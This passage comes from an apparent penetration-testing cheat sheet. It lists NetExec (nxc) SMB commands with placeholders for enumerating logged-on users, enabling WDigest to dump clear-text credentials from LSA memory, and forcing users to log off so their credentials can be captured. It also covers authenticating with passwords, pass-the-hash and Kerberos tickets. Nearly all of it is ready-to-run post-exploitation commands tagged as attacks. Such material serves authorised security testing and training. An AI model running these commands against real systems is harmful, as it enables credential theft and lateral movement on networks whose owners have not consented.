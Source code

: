 ```bash
nxc smb <ip> -u <user> -p '<password>' --loggedon-users
```

## smb - enable wdigest
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT  #warning/modify_target 

enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
nxc smb <ip> -u <user|Administrator> -p '<password>' --local-auth --wdigest enable
```

## smb - loggout user
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #warning/modify_target #cat/POSTEXPLOIT

Can be useful after enable wdigest to force user to reconnect
First use  -x 'quser'
```bash

nxc smb <ip> -u <user> -p '<password>' -x 'logoff <id_user>' --no-output
```

## smb - local-auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
nxc smb <ip> -u <user> -p <password> --local-auth
```

## smb - local-auth with hash
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

```bash
nxc smb <ip> -u <user> -H <nt_hash> --local-auth
```

## smb - domain auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT  

```bash
nxc smb <ip> -u <user> -p <password> -d <domain_fqdn>
```

## smb - kerberos auth
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/CONNECT 

Previously import ticket : 
export KRB5CCNAME=<ccache>

```bash
nxc smb <ip> --kerberos
```
